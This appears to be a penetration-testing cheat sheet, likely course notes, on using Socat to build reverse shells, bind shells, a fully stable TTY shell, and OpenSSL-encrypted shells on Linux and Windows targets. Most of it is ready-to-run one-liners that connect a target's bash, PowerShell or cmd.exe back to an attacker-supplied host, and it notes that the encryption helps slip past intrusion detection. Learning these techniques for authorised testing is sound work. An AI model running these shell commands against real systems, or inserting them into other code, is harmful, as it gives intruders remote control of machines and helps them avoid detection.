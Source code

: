 **Socat - Reverse and Bind Shells, Fully Stable TTY:**

**Socat Overview:**

**Socat** is a more advanced networking tool compared to Netcat. Similar to Netcat, Socat facilitates bidirectional data transfer, but it offers additional features and capabilities. It acts as a relay for data between two points, making it a versatile utility for creating complex network connections. Socat is particularly useful for stabilizing shells, enhancing their interactivity, and even enabling encrypted communication. While both Netcat and Socat are essential in penetration testing, Socat stands out for its ability to provide more fully-featured shells and support more advanced networking scenarios.

**Reverse Shells:**

1. **Linux Target:**
   - Listener Syntax:
     ```bash
     socat TCP-L:<port> -
     ```
   - Equivalent to `nc -lvnp <port>` in terms of functionality.

2. **Windows Target:**
   - Command to Connect Back:
     ```bash
     socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
     ```
     - "pipes" forces PowerShell or cmd.exe to use Unix-style standard input and output.

3. **Linux Target:**
   - Command to Connect:
     ```bash
     socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
     ```

**Bind Shells:**

4. **Linux Target:**
   - Listener Syntax:
     ```bash
     socat TCP-L:<PORT> EXEC:"bash -li"
     ```

5. **Windows Target:**
   - Listener Command:
     ```bash
     socat TCP-L:<PORT> EXEC:powershell.exe,pipes
     ```
     - "pipes" for interfacing between Unix and Windows CLI.

6. **Connecting to Waiting Listener:**
   ```bash
   socat TCP:<TARGET-IP>:<TARGET-PORT> -
   ```

**Fully Stable Linux TTY Reverse Shell:**

7. **Listener Syntax:**
   ```bash
   socat TCP-L:<port> FILE:`tty`,raw,echo=0
   ```
   - Connects a listening port to the current TTY as a file with echo set to zero.
   - Provides a stable Linux tty reverse shell.

8. **Special Socat Command (Target Must Have Socat Installed):**
   ```bash
   socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
   ```
   - Breakdown:
      - `pty`: Allocates a pseudoterminal on the target.
      - `stderr`: Shows error messages in the shell.
      - `sigint`: Passes Ctrl + C commands to the sub-process.
      - `setsid`: Creates the process in a new session.
      - `sane`: Stabilizes the terminal.

9. **Enhancements:**
   - Adjust stty values for improved interaction (as seen in a previous task).
   - Verbosity Increase (if needed): Add `-d -d` to the command.

**Note:**
   - Socat serves as a versatile connector between two points, providing stability and various functionalities.
   - Socat might need to be uploaded to the target if not installed by default.

**Encrypted Shells with Socat:**

1. **Generate Certificate:**
   ```bash
   openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
   ```
   - Creates a self-signed 2048-bit RSA key with a matching certificate valid for almost a year.
   - Information about the certificate can be left blank or filled randomly.

2. **Merge Files into .pem:**
   ```bash
   cat shell.key shell.crt > shell.pem
   ```
   - Combines the key and certificate into a single .pem file.

3. **Setting up Reverse Encrypted Shell Listener:**
   ```bash
   socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
   ```
   - Sets up an OPENSSL listener using the generated certificate.
   - `verify=0` skips the validation of the certificate by a recognized authority.
   - Note: The certificate must be used on the device that is listening.

4. **Connect Back with Encrypted Shell:**
   - For Linux Target:
     ```bash
     socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
     ```
   - For Windows Target (Bind Shell):
     ```bash
     socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
     ```
   - Note: Copy the PEM file to the Windows target for the bind shell.

5. **Special TTY Shell (Linux-Only) with Encrypted Connection:**
   - The syntax for the special TTY shell is not provided, challenging participants to figure it out.

6. **Note on Security:**
   - Encrypted shells enhance security by preventing eavesdropping without the decryption key.
   - Bypasses Intrusion Detection Systems (IDS) more effectively.
